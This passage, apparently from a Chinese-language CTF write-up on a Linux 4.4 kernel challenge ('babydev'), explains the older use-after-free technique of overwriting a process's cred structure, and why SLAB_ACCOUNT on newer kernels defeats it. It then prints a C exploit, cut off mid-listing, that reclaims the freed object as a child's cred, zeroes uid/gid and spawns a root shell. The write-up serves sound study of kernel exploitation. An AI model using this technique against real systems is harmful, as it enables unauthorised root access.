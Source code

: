 
### Old Solution

這道題在當年的解法是**通過 UAF 修改該進程的 cred 結構體的 uid、gid 爲0**，十分簡單十分白給。

但是**此種方法在較新版本 kernel 中已不可行，我們已無法直接分配到 cred\_jar 中的 object**，這是因爲 cred\_jar 在創建時設置了 `SLAB_ACCOUNT` 標記，在 `CONFIG_MEMCG_KMEM=y` 時（默認開啓）**cred\_jar 不會再與相同大小的 kmalloc-192 進行合併**

> 來自內核源碼 4.5 `kernel/cred.c`
>
> ```c
> void __init cred_init(void)
> {
> 	/* allocate a slab in which we can store credentials */
> 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
> 			SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);
> }
> ```
>
> 本題（4.4.72）：
>
> ```c
> void __init cred_init(void)
> {
> 	/* allocate a slab in which we can store credentials */
> 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred),
> 				     0, SLAB_HWCACHE_ALIGN|SLAB_PANIC, NULL);
> }
> ```

因此這裏考慮介紹更加通用的解法，對舊的解法感興趣的可以參考如下exp：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

int main(void)
{
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");

    ioctl(fd1, 0x10001, 0xa8); /* object to be reused as the child's cred */
    close(fd1);

    int pid = fork();

    if(pid < 0) {
        printf("\033[31m\033[1m[x] Unable to fork.\033[0m\n");
        return -1;
    }
    else if(pid == 0) { /* the child to get the UAF cred */
        char buf[30];

        memset(buf, '\0', sizeof(buf));
        write(fd2, buf, 28);  /* overwrite uid&gid to 0 directly */

        if(getuid() == 0) {
            puts("\033[32m\033[1m[+] Successful to get the root.\033[0m\n");
            system("/bin/sh");
            return 0;
```